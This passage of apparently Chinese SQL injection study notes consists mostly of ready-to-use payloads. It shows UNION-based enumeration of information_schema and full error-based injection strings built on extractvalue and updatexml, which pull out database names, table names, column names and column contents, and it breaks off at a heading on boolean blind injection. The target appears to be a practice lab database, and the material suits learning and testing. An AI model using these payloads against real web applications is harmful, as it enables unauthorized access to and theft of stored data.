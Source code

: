 ```
```
***（7）获取列名（columns表）***
```
select column_name from columns where table_schema='security' and table_name='users';
```
***（8）优化步骤***
```
select table_name,column_name from columns where table_schema='security';
id=1' union select 1,2,group_concat(table_name,'_',column_name) from information_schema.columns where table_schema=database()
```
***（9）获取数据***
```
  --dump</br>
```
### 2、报错注入：
报错注入语句(本查询结果基于数据库security下的表) （updatexml/ extractvalue）</br>
1#查询数据库名字（用户user()；版本version()）</br>
```
?id=1' and extractvalue(1,concat(0x7e,(select database()),0x7e))%23</br>
```
2#查询数据库有多少个表</br>
```
?id=1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e))%2
```
3#查询数据库的表名，limit后面第一个数字表示第几个表</br>
```
?id=1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e))%23
```
4#查询列名，limit后数字表示第几列</br>
```
?id=1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e))%23
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='emails'),0x7e))%23
```
5#查询表里面某列的内容</br>
```
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(id) from security.emails),0x7e))%23    
```
1#查询数据库名字，数据库名字为security（用户user()；版本version()）</br>
```
?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23
```
2#查询数据库有多少个表</br>
```
?id=1' and updatexml(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e),1)%23
```
3#查询数据库的表名，limit后第一个数字表示第几个表</br>
```
?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),1)%23
```
4#查询列名，limit后数字表示第几列</br>
```
?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e),1)%23
```
5#查询表里面某列的内容</br>
```
?id=1' and updatexml(1,concat(0x7e,(select group_concat(email_id) from security.emails),0x7e),1)%23</br>
```
### 3、布尔盲注：</br>